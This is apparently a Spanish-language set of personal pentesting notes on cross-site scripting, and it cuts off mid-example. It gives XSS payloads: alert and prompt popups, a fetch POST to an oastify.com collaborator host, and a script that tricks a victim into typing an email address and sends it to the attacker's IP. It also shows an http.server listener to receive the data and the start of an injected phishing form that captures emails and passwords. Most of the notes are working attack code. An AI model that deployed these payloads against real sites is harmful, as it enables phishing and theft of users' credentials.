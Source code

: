 ```javascript


/// Para agregar una pagina dentro de otra pagina con dimenciones 
<iframe src="http://ejemplo.org/demo.html" height="400" width="800" name="demo">     
  <p>Su navegador no es compatible con iframes</p>
</iframe>
```

## JavaScript en la web

```javascript
<script>alert("XSS")</script>          /// Creamos una ventana emergente con codigo javascript que dice XSS
<script>prompt('Mensaje')</script>     /// Ventana emergente para ingresar algun dato                

<script>                               /// Para mandar algo por el metodo POST a un dominio 
  fetch('https://kwklry4t8e18m8q8k5uikgydy44vslga.oastify.com',{method:'POST', mode:'no-cors', body:'omar'});
</script>

```

## Recibir información por medio de un 'Alert'  

```javascript
// Podemos crear un script en donde nos devuelva el correo o algún dato a nuestra IP. Para mandarlo por la url debemos de 'urlencodear' el código Javascript

<script>
    var email = prompt("Por favor, introduce tu correo electronico para visualizar el post", "example@example.com");

    if (email == null || email == ""){   
        alert("Es necesario introducir un correo para ver el post");
    } else{
        fetch("http://192.168.68.108/?email=" + email );  
    }
</script>

	/// If = Verificar si el correo esta vacio o no
	/// fetch = Realizar una peticion a nuestra IP de atacante para recibir la informacion 
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para recibir las peticiones 
```

## Recibir información 

```html
<!-- También lo podemos hacer con HTML y Javascript para poder hacer un (Phishing), el cual nos regresara a nuestra maquina victima el correo y la passwd de la victima -->

<div id="formContainer"></div>

<script>
	var email;
	var password;
	var form = '<form>' +
		'Email: <input type="email" id="email" required>' +
		' Contrasena: <input type="password" id="password" required>' +
		'<input type="button" onclick="submitForm()" value="Submit">' +
```